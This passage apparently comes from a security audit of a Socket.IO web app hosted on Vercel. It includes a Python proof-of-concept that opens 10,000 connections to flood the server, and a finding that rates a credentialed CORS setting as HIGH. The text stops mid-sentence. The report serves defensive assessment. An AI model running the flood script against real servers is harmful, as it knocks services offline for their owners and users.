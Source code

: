 **Attack Vector:**

Connection flood attack:

```python
import socketio
import asyncio

async def flood_connections():
    tasks = []
    for i in range(10000):  # 10k connections
        sio = socketio.AsyncClient()
        task = sio.connect('https://[server].vercel.app')
        tasks.append(task)
    
    await asyncio.gather(*tasks)
    # Server resources exhausted

asyncio.run(flood_connections())
```

**Impact:**
- DoS via connection exhaustion
- Server resource depletion
- Service unavailability

---

## 8. Configuration & Environment Security

### 8.1 HIGH: Weak CORS Configuration

**Severity:** HIGH  
**CVSS Score:** 7.0

**Vulnerability Description:**

CORS allows credentials from any origin matching the pattern:

```javascript
// server/server.js
const CORS_ORIGIN = getEnv('CORS_ORIGIN', 'http://localhost:5173');

app.use(cors({
  origin: CORS_ORIGIN,  // Single origin, but...
  credentials: true,    // ← Allows cookies/auth headers
  methods: ['GET', 'POST', 'PUT', 'DELETE']
}));
```

If `CORS_ORIGIN` is set to `*` or multiple origins improperly, credentials are exposed.

**Attack Vector:**

If attacker can modify `CORS_ORIGIN` (via environment injection), they can:
